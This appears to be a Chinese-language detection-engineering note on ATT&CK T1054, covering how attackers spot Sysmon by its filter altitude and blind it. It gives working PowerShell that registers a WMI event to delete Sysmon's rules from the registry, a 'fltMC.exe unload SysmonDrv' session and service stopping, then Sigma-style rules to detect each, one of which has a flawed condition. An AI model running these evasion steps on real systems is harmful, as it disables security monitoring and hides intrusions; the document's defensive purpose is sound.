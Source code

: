 # T1054-windows-绕过sysmon

## 来自ATT&CK的描述

攻击者可能试图阻止由监测软件或进程捕获到的告警，以及事件日志被收集和分析。这可能包括修改配置文件或注册表项中的监测软件的设置，以达到逃避追踪的目的。

在基于特征监测的情况下，攻击者可以阻止监测特征相关的数据被发送出去，以便于阻止安全人员进行分析。这可以有很多方式实现，例如停止负责转发的进程（splunk转发器、Filebate、rsyslog等）。

## 测试案例

众所周知，sysmon可以帮助安全人员记录很多安全事件，目前sysmon最新版本已经是10.X版本。对于攻击者来讲，他们可能需要确定目标主机是否存在sysmon。通常，攻击者是不会去检测他们入侵的主机上是否存在sysmon。

如何检测被入侵的主机是否存在sysmon，很多攻击者一般执行以下的一种操作：

枚举进程；

枚举服务；

枚举C:\Windows\System32\Drivers下的驱动；

但是，你应该知道sysmon可以实现以下功能：用户可以在其中更改可执行文件和驱动文件的名称，以便其在系统中的存在进行模糊处理。

不过攻击者可以利用fltmc.exe查看其altitude号码，sysmon的altitude号码是385201，固定不变的。

使用fltmc.exe得到的altitude号：

```
Windows PowerShell
版权所有 (C) 2009 Microsoft Corporation。保留所有权利。

PS C:\Users\Administrator> fltmc.exe

筛选器名称                      数字实例       高度          框架

------

SysmonDrv                               2       385201         0
luafv                                   1       135000         0
```

在Mimikatz中使用misc::mflt命令得到的altitude号：

```
mimikatz # misc::mflt
0 2     385201 SysmonDrv
0 1     135000 luafv
```

关于更多的如何检测被入侵的主机是否存在sysmon，你可以参考：https://anquan.baidu.com/article/350，如何检测sysmon不是本文的重点。

### **绕过Sysmon的两种方法**

目前，攻击者有2个绕过sysmon的方法，第一个是在利用sysmon进程中的盲点，第二种则是直接禁用sysmon。

#### 删除配置项

攻击者可以删除注册表中的规则项，此时， Sysmon在发现注册表被更改后，它将自动重新加载配置。由于此时没有任何安全检测规则存在，它将暂时失去防护能力，不过失效时间，取决于配置的维护方式。如果配置由Ansible，Chef或DSC等配置管理系统管理，可能需要几秒到几分钟才能将配置更改回原始状态，如果使用GPO来管理，那么当GPO更新时，可以在90分钟内恢复原始状态。为了解决这个问题，攻击者可以使用各种Windows技术（如.Net、VBS、PE文件等）创建VMI临时性Consumer监控相应的注册表项，当发现修改操作时，则会删除修改数据或者重新设置表项内容。之所以使用临时的Consumer，是因为大多数防护解决方案会重点关注正在创建或修改的WMI永久事件。

#### 卸载SysmonDrv驱动

我们可以采取的另一个操作就是卸载SysmonDrv驱动，该驱动可以为Sysmon提供关于所有磁盘操作的信息，然后将信息写入事件日志中。如前文所述，该驱动有个唯一的altitude编号，如果我们以管理员权限运行，就可以卸载该驱动，然后Sysmon基本上就会完全处于失效状态。我们可以使用`fltmc.exe`工具来卸载驱动，如下所示，我们通过altitudde编号识别出了隐藏驱动，并成功卸载该驱动。

#### 关闭sysmon服务（管理员权限）

通过windows任务管理器，管理员权限关闭sysmon服务。

## 检测日志

sysmon日志、Windows-WMI-Activity日志，system日志

## 测试复现

#### 删除配置项

```
$query = "SELECT * FROM RegistryKeyChangeEvent " + 
    "WHERE Hive ='HKEY_LOCAL_MACHINE' " + 
    "AND KeyPath ='SYSTEM\\CurrentControlSet\\Services\\SysmonDrv\\Parameters'"

Register-WMIEvent -Query $query -Action { 
    Write-host "Sysmon config updated, deleting config."
    Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\SysmonDrv\Parameters" -Name "Rules" }
```

需要注意一点，此时Sysmon会恢复默认配置，因此会记录进程创建和进程终止事件。

#### 卸载SysmonDrv驱动

```
Windows PowerShell
版权所有 (C) 2009 Microsoft Corporation。保留所有权利。

PS C:\Users\Administrator> fltMC.exe

筛选器名称                      数字实例       高度          框架
------------------------------  -------------  ------------  -----
SysmonDrv                               2       385201         0
luafv                                   1       135000         0
PS C:\Users\Administrator> fltMC.exe unload SysmonDrv
PS C:\Users\Administrator> fltMC.exe

筛选器名称                      数字实例       高度          框架
------------------------------  -------------  ------------  -----
luafv                                   1       135000         0
PS C:\Users\Administrator>
```

#### 关闭sysmon服务

任务管理器>服务>sysmon服务>停止

## 测试留痕

暂无

## 检测规则/思路

#### 删除配置项

```
title: 删除sysmon配置项
description: win7 模拟测试结果
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: WMI日志
detection:
    selection:
        EventID: 5860
        keyword: '命名空间 = root\cimv2；NotificationQuery = SELECT * FROM RegistryKeyChangeEvent WHERE Hive ='HKEY_LOCAL_MACHINE' AND KeyPath ='SYSTEM\\CurrentControlSet\\Services\\SysmonDrv\\Parameters'；PossibleCause = Temporary'
    timeframe: last 1m
    condition: selection
level: medium
```

#### 卸载SysmonDrv驱动—sysmon

```
title: fltmc卸载sysmon
description: windows server 2008 模拟测试结果
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: sysmon
detection:
    selection1:
        EventID: 1
        Image: 'C:\Windows\SysWOW64\fltMC.exe'
        CommandLine: '"C:\Windows\system32\fltMC.exe"  unload Sysmon*'
        ParentImage: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
    selection2:
        EventID: 255
        ID: 'DriverCommunication'
        Description: 'Failed to retrieve events - Last error: 由于线程退出或应用程序请求，已中止 I/O 操作。'
    timeframe: last 1m
    condition: selection1 and selection2
level: medium
```

#### 关闭sysmon服务

```
title: 以其他方式关闭sysmon服务
description: win7 模拟测试结果
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: system、sysmon
detection:
    selection1:
        EventID: 4 #sysmon日志
        State: Stopped
    selection2:
        EventID: 7036 #system日志
        keyword: 'Sysmon* 服务处于 停止 状态。'
    selection3: 
        EventID: 7040  #system日志
        keyword: 'Sysmon64 服务的启动类型从 自动启动 更改为 已禁用。'
    selection4: 
        EventID: 7034 #system
    condition: selection or selection2 or selection3
level: medium
```

## 参考推荐

MITRE-ATT&CK-T1054：https://attack.mitre.org/techniques/T1054/

审核策略相关介绍：https://www.malwarearchaeology.com/logging

如何规避sysmon：https://www.anquanke.com/post/id/161630



